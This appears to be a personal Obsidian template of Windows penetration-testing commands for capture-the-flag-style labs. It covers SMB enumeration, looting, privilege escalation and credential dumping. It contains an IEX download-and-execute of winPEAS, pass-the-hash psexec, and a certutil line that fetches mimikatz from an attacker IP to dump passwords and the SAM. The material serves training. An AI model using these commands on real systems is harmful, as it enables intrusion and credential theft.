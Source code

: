 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

First flag: ☑️
Second flag: ✅

# Enumeration
##### Enum4Linux
```bash
enum4linux -a $hip
```
If Null-Session is not restricted, also use `rpcclient -U "" -N $hip` with `querydispinfo` and `enumdomusers`. If used with proxy, use `proxychains -q`
##### Get SMB version
```bash
crackmapexec smb $hip 2>/dev/null
```
Alternativ: [grab_smbversion.sh](file:////home/kali/Documents/activeInformationGathering/)


# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt` or local.txt for non-elevated
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Recurse -Path C:\Users\ -File -Exclude Desktop.lnk,Downloads.lnk,Bing.url | select Name,Directory; Get-ChildItem -Path C:\Users\ -Include *.kdbx,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; type (Get-PSReadlineOption).HistorySavePath
```

##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)

# Loot passwords
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.IP:8000/mimikatz.exe" ; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords lsadump::sam exit
```